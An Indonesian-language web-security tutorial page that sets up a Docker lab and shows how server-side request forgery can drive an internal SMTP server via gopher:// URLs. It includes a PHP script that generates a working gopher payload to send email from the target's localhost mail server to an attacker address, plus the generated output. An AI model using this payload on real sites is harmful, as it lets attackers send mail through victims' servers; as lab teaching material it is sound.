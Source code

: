 # SSRF And SMTP

SSRF bisa dimanfaatkan untuk berinteraksi dengan SMTP, sehingga attacker bisa mengirim email melalui server SMTP dari website yang _vulnerable_ SSRF.

![Skema dasar serangan SSRF And SMTP](../../.gitbook/assets/ssrf_smtp-1.png)

### Lab Setup

Email Server menggunakan `sendmail` dan di_deploy_ menggunakan `docker`.

```bash
git clone https://github.com/rhamaa/Web-Hacking-Lab.git
cd Web-Hacking-Lab/SSRF_SMTP_LAB
docker build -t ssrf_smtp_lab .
docker run -d --rm -p 8022:80 ssrf_smtp_lab
```

![Halaman index lab](../../.gitbook/assets/lab.JPG)

\*\* Port HTTP sengaja diforward ke 8022 karena memang di Host Server port 80 nya sudah ada service yang berjalan.

{% hint style="info" %}
Lab tersebut hanya menggunakan setingan _default_ sendmail, mungkin tidak akan bisa mengirim \(_Outgoing Mail_\) pesan ke provider-provider email tertentu seperti Gmail.
{% endhint %}

### SMTP \(Simple Mail Transfer Protocol\) 101

SMTP berfungsi untuk mengirim email dari SMTP server pengirim ke SMTP server penerima email, secara default port SMTP adalah 25, selain itu SMTP mempunyai port lain yaitu 587 MSA \(_message submission agent_\), bedanya dengan port 25 adalah port 587 membutuhkan Autentikasi SMTP. Port 587 ini lebih sering digunakan karena tergolong lebih aman dibandingkan port 25.

#### Beberapa Command SMTP

| **Command** | **Deskripsi** |
| :--- | :--- |
| `HELO <FQDN>` | Say Hello ke SMTP server agar saling mengenal |
| `MAIL FROM <Your_Email>` | Set Email pengirim |
| `RCPT TO <Receiver_Email>` | Set Email tujuan |
| `DATA` | Mulai menulis isi email, lalu akhiri dengan "." untuk mengirim |
| `VRFY <username>` | Melakukan verifikasi mailbox user di local host |
| `EXPN <username>` | \( sama seperti VRFY \) |
| `QUIT` | Keluar dari SMTP |

![Contoh penggunaan command SMTP](../../.gitbook/assets/smtp_command_telnet.JPG)

{% hint style="info" %}
**Trivia :** _Command_ RCPT TO, VRFY, dan EXPN dapat digunakan untuk melakukan _Username Enumeration_ yang sangat berguna saat melakukan _pentesting_.
{% endhint %}

### SMTP Hates HTTP

Seperti yang dikatakan **Orange Tsai** dalam presentasinya bahwa "_SMTP Hates HTTP_" karena memang HTTP tidak bisa melakukan _smuggling_ ke SMTP.

Pada `sendmail` terdapat changelog yang mengatakan akan menolak apabila paketnya di awali dengan _GET_, _POST_, _CONNECT,_ atau _USER_

```text
8.14.0/8.14.0   2007/01/31  
  ....
  Try to deal with open HTTP proxies that are used to send spam
    by recognizing some commands from them. If the first command
    from the client is GET, POST, CONNECT, or USER, then the
    connection is terminated immediately.
```

Sangat mustahil untuk melakukan _smuggling_ HTTP ke SMTP, karena memang pasti akan ditolak, tetapi protokol Gopher dan HTTPS bisa melakukan _smuggling_ ke protokol SMTP sehingga bisa menjadi solusi terhadap permasalahan tersebut.

{% hint style="info" %}
**HTTPS** tidak mendukung _multiline_ _request_ seperti gopher, oleh karena itu dibutuhkan celah _CRLF Injection_ apabila ingin melakukan _querying_ SMTP melalui HTTPS
{% endhint %}

### Querying SMTP Melalui Gopher

Syntax Gopher untuk Querying SMTP seperti dibawah ini.

`gopher://<Intranet_IP>:25/_<Command_SMTP>`

_Script_ di bawah ini bisa digunakan untuk meng-automasi pembuatan _payload_.

```php
<?php
        $commands = array(
                'HELO target.0xff.web.id',
                'MAIL FROM: <root@target.0xff.web.id>',
                'RCPT TO: <attacker@email.com>',
                'DATA',
                'Subject: SSRF HERE',
                'SSRF AND SMTP',
                '.'
        );

        $payload = implode('%0A', $commands); // memisahkan tiap command dengan newline

        echo 'gopher://127.0.0.1:25/_' . $payload;
?>
```

{% hint style="info" %}
Tanda \_ \(_**underscore**_\) setelah &lt;port&gt;:/ untuk mewakili _gophertype_, sehingga harus disertakan, karena apabila tidak disertakan karakter payload akan terpotong 1 karakter, misal payloadnya adalah _HelloWorld_, apabila tanda \_ tidak disertakan payloadnya akan menjadi _ElloWorld_.
{% endhint %}

#### Percobaan Serangan

```bash
$ php payload.php
gopher://127.0.0.1:25/_HELO target.0xff.web.id%0AMAIL FROM: <root@target.0xff.web.id>%0ARCPT TO: <attacker@email.com>%0ADATA%0ASubject: SSRF HERE%0ASSRF AND SMTP%0A.
```

Masukan _payload_ yang sudah di-_generate_ ke web target.

![](../../.gitbook/assets/screenshot-from-2019-03-21-01-25-48.png)

![Pesan setelah payload disubmit](../../.gitbook/assets/screenshot-from-2019-03-21-01-25-03.png)

Terdapat email dari server target masuk.

![Email Masuk](../../.gitbook/assets/inbox.jpg)

### Referensi

[https://tools.ietf.org/html/rfc4266](https://tools.ietf.org/html/rfc4266)

[https://serverfault.com/questions/776489/what-exactly-does-probable-open-proxy-command-post-mean-in-sendmail-logs](https://serverfault.com/questions/776489/what-exactly-does-probable-open-proxy-command-post-mean-in-sendmail-logs) [http://blog.smartreach.io/2018/11/21/smtp-pop3-imap-work/](http://blog.smartreach.io/2018/11/21/smtp-pop3-imap-work/) [https://hackerone.com/reports/115748](https://hackerone.com/reports/115748)

